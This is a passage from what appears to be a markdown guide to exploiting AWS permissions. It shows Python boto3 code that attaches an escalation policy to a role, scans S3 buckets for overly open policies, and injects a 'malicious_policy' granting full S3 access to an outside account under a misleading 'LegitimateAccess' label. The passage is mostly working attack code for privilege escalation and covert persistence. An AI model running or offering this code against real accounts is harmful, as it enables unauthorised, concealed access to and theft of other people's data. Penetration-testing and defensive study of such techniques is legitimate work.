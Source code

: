 ```python
        )

        # Attach confused policy
        iam_client.put_role_policy(
            RoleName='ConfusedPolicyRole',
            PolicyName='EscalationPolicy',
            PolicyDocument=json.dumps(escalation_policy)
        )

        print("Policy confusion role created successfully")

    except Exception as e:
        print(f"Exploitation failed: {e}")
```

### Resource-Based Policy Exploitation

#### S3 Bucket Policy Injection

```python
class S3PolicyExploitation:
    def __init__(self, session):
        self.s3 = session.client('s3')

    def discover_writable_buckets(self):
        """Find buckets with overpermissive policies"""
        buckets = self.s3.list_buckets()['Buckets']
        vulnerable_buckets = []

        for bucket in buckets:
            try:
                policy = self.s3.get_bucket_policy(Bucket=bucket['Name'])
                policy_doc = json.loads(policy['Policy'])

                # Check for dangerous principals
                for statement in policy_doc['Statement']:
                    if statement.get('Effect') == 'Allow':
                        principal = statement.get('Principal', {})
                        if principal == '*' or 'arn:aws:iam::*' in str(principal):
                            vulnerable_buckets.append({
                                'bucket': bucket['Name'],
                                'policy': policy_doc
                            })

            except Exception:
                continue

        return vulnerable_buckets

    def inject_malicious_policy(self, bucket_name):
        """Inject policy to maintain access"""
        malicious_policy = {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "LegitimateAccess",
                    "Effect": "Allow",
                    "Principal": {"AWS": "arn:aws:iam::ACCOUNT:root"},
                    "Action": "s3:*",
                    "Resource": [
                        f"arn:aws:s3:::{bucket_name}",
                        f"arn:aws:s3:::{bucket_name}/*"
                    ]
```